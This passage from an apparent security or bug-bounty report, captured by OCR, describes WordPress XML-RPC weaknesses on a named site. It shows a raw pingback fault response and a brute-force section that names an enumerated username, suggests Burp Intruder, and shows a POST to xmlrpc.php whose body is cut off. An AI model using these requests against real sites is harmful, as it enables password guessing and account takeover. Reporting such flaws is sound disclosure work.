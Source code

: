 ### Response:

```
HTTP/1.1 200 OK
Date: Sat, 03 Apr 2021 05:58:08 GMT
Content-Type: text/xml; charset=UTF-8
Connection: close
Strict-Transport-Security: max-age=15552000; includeSubDomains
Vary: Accept-Encoding
X-hacker: If you're reading this, you should visit automattic.com/jobs and apply to join the fun, mention this header.
Host-Header: WordPress.com
X-ac: 2.hhn _atomic_ams
CF-Cache-Status: DYNAMIC
cf-request-id: 0937e87a5500002b4d4c323000000001
Expect-CT: max-age=604800, report-uri="https://report-uri.cloudflare.com/cdn-cgi/beacon/expect-ct"
Server: cloudflare
CF-RAY: 63a0103d5b352b4d-FRA
Content-Length: 394


<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <fault>
    <value>
      <struct>
        <member>
          <name>faultCode</name>
          <value><int>0</int></value>
        </member>
        <member>
          <name>faultString</name>
          <value><string>Invalid discovery target</string></value>
        </member>
      </struct>
    </value>
  </fault>
</methodResponse>
```
3.Brute force attacks XML-RPC

Sometimes the only way to bypass request limiting or blocking in a brute force attack against WordPress site is to use the all too forgotten XML-RPC API.
In this section, we use the wp / v2 / users path that I mentioned at the beginning of the report.
Here we have found the users from the said path and use them in this section.(The user used in this section is ==asha8fd635db6e9==, which is a report from the first section.)
"The above request can be sent in Burp Intruder (for example) with different sets of credentials. Note that, even if you guess the password or not, the response code will always be 200. "
"WordPress XML-RPC by default allows an attacker to perform a single request, and brute force hundreds of passwords."


### Post Request:
```
POST /xmlrpc.php HTTP/1.1
Host: sifchain.finance
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: __cfduid=dcb7a4e2b0f6a7042e39b0bd33aa4128a1617428272
Upgrade-Insecure-Requests: 1
Content-Length: 243

```